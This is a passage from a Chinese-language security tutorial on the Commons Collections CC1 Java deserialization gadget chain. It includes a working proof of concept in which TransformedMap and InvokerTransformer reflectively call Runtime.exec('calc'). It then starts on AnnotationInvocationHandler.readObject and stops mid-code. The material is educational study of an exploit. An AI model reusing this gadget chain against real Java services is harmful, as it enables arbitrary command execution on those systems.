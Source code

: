 JDK1.8(无法利用，JDK1.7即可)

- TransformedMap

TransformedMap的作用是来修饰Map的一个类，被修饰过的Map在添加新的元素时，将可以执⾏⼀个回调。修饰函数如下：

```java
    public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```

第一个参数即是需要传入的map，第二个参数就是处理新元素的Key的回调，第三个参数就是处理新元素的value的回调。

这里的回调不是说的回调函数，而是⼀个实现了 Transformer 接⼝的类，

上面我们使用的是 ChainedTransformer 类的 transform 方法来回调到 InvokerTransformer 类中的 transform 方法反射出恶意类，P师傅则是用的 TransformedMap 来回调到 InvokerTransformer 类中的 transform 方法反射出恶意类，代码如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.TransformedMap;

import java.io.IOException;
import java.util.HashMap;
import java.util.Map;

public class cc1{

    public static void main(String[] args) throws IOException {
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class},new Object[] {
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class}, new Object[] {
                        null, new Object[0]
                }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"calc"})
        });

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

因为 transformerChain 只是⼀系列回调，需要⽤其来包装 innerMap ，即 TransformedMap.decorate ，然后通过往 Map 里面 put 元素触发回调。

还是回到刚才的问题，我们这里是手动执⾏ outerMap.put("test", "xxxx"); 来触发漏洞的，而我们需要找一个能反序列化后调用到了类似的写入操作，这里就存在 sun.reflect.annotation.AnnotationInvocationHandler 这个类

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        ObjectInputStream.GetField fields = s.readFields();

        @SuppressWarnings("unchecked")
        Class<? extends Annotation> t = (Class<? extends Annotation>)fields.get("type", null);
        @SuppressWarnings("unchecked")
        Map<String, Object> streamVals = (Map<String, Object>)fields.get("memberValues", null);

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
```